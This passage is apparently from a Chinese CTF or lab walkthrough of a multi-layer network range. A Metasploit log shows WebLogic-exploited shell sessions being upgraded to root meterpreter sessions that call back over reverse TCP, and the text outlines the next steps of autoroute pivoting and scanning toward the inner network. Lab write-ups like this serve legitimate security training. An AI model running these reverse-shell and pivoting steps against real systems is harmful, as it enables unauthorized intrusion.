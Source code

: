
剩下的就是分别在3个会话中`ls /tmp`查看flag提交了，这里不再赘述

#### 内层

仍然和中层一样需要找到跳板主机访问到内层网络，通过升级普通会话到meterpreter，随后搭建autoroute添加路由表，随后进行存活性扫描，再者是端口扫描，话不多说直接操作吧

首先是升级会话和找到连接内层网络的跳板主机，这里因为开太多容器和虚拟机的问题回连速度略慢导致产生了报错，即前一会话仍在等待4433端口的回应时下一会话的payload已经发送过去导致本地端口冲突了，不过不影响，使用`jobs -l`确认后台执行完成后3个会话都升级到了meterpreter：

```metasploit
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -u 3-5
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [3, 4, 5]

[*] Upgrading session ID: 3
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.56.107:4433
[*] Sending stage (1017704 bytes) to 192.168.56.1
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Sleeping 5 seconds to allow the previous handler to finish..
[*] Upgrading session ID: 4
[*] Starting exploit/multi/handler
[-] Job 1 is listening on IP 192.168.56.107 and port 4433
[-] A job is listening on the same local port
[-] Failed to start exploit/multi/handler on 4433, it may be in use by another process.
[*] Sleeping 5 seconds to allow the previous handler to finish..
[*] Upgrading session ID: 5
[*] Starting exploit/multi/handler
[-] Job 1 is listening on IP 192.168.56.107 and port 4433
[-] A job is listening on the same local port
[-] Failed to start exploit/multi/handler on 4433, it may be in use by another process.
[*] Sleeping 5 seconds to allow the previous handler to finish..
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > [*] Meterpreter session 6 opened (192.168.56.107:4433 -> 192.168.56.1:60622) at 2023-07-26 11:08:53 -0400

[*] Stopping exploit/multi/handler

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)
  3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60640 (192.171.84.2)
  4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60630 (192.171.84.3)
  5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60574 (192.171.84.5)
  6         meterpreter x86/linux  root @ 192.171.84.2  192.168.56.107:4433 -> 192.168.56.1:60622 (192.171.84.2)

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 6
[*] Starting interaction with 6...

meterpreter > ipconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
```